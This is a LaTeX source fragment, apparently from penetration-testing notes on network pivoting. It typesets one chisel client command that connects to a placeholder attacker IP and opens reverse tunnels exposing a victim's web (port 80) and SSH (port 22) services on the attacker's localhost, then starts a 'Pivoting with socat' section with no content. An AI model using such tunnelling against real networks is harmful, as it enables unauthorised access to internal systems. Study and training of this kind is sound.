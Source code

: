 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{enumerate}
\begin{itemize}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ client }\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{:1234 R:127.0.0.1:80:}\OperatorTok{<}\NormalTok{victim ip}\OperatorTok{>}\NormalTok{:80 R:127.0.0.1:222:}\OperatorTok{<}\NormalTok{victim ip}\OperatorTok{>}\NormalTok{:22}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Now attacker can check the web app on localhost:80 or use the ssh to 127.0.0.1 -p 222
\end{enumerate}

\hypertarget{pivoting-with-socat}{%
\section*{Pivoting with socat}\label{pivoting-with-socat}}
\end{document}
